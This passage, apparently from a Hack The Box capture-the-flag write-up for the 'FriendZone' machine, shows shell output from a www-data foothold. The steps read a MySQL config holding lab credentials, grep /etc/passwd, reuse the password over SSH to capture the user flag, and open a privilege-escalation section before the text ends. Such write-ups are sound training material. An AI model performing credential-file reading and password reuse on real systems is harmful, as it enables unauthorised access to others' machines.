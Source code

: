 ```
www-data@FriendZone:/var/www$ ls -la
ls -la
total 36
drwxr-xr-x  8 root root 4096 Oct  6 15:47 .
drwxr-xr-x 12 root root 4096 Oct  6 02:07 ..
drwxr-xr-x  3 root root 4096 Jan 16 22:13 admin
drwxr-xr-x  4 root root 4096 Oct  6 01:47 friendzone
drwxr-xr-x  2 root root 4096 Oct  6 01:56 friendzoneportal
drwxr-xr-x  2 root root 4096 Jan 15 21:08 friendzoneportaladmin
drwxr-xr-x  3 root root 4096 Oct  6 02:05 html
-rw-r--r--  1 root root  116 Oct  6 15:47 mysql_data.conf
drwxr-xr-x  3 root root 4096 Oct  6 01:39 uploads
www-data@FriendZone:/var/www$ cat mysql_data.conf
cat mysql_data.conf
for development process this is the mysql creds for user friend

db_user=friend

db_pass=Agpyu12!0.213$

db_name=FZ
```

There's a `friend` user in the local passwd database:

```
www-data@FriendZone:/var/www$ grep friend /etc/passwd
grep friend /etc/passwd
friend:x:1000:1000:friend,,,:/home/friend:/bin/bash
```

I can SSH in with those credentials and grab the `user.txt` flag:

```
root@ragingunicorn:~/htb/friendzone# ssh friend@10.10.10.123
Ilcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-36-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have mail.
Last login: Sat Feb  9 23:43:09 2019 from 10.10.14.23
friend@FriendZone:~$ cat user.txt
a9ed20...
```

### Privesc

`/opt/server_admin` contains a `reporter.py` script that probably runs every minutes in a root owned cronjob:
